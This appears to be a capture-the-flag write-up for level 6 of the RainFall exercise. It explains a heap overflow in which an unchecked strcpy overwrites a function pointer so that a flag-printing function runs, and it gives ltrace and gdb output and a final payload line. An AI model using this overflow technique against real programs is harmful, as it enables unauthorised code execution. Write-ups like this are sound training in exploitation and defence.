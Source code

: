 # Level 6

In the source, we see two functions m and n.
In the main there is a function pointer being set to m which just prints "Nope". But n would print out the flag for us.
If only we could call it!

In comes strcpy to save the day.
Because the `char* dest` is located before our function pointer in memory, we can override it by overflowing the buffer.

As we can see, the strcpy copies over the entire argv[1] without checking the size.


We can get the addresses from malloc by running `ltrace`.
```shell
level6@RainFall:~$ ltrace ./level6 
__libc_start_main(0x804847c, 1, 0xbffff7f4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                                      = 0x0804a008
malloc(4)                                                       = 0x0804a050
strcpy(0x0804a008, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
level6@RainFall:~$ 
```

```shell
level6@RainFall:~$ gdb -q level6 
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) b *main+78
Breakpoint 1 at 0x80484ca
(gdb) run $(python -c 'print 72*"A"')
Starting program: /home/user/level6/level6 $(python -c 'print 72*"A"')

Breakpoint 1, 0x080484ca in main ()
(gdb) x/40x 0x0804a008
0x804a008:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a048:	0x41414141	0x41414141	0x08048400	0x00000000
0x804a058:	0x00000000	0x00020fa9	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) 
```


```shell
level6@RainFall:~$ ./level6 $(python -c 'print 72 * "A" + "\x54\x84\x04\x08"')
[...]
```
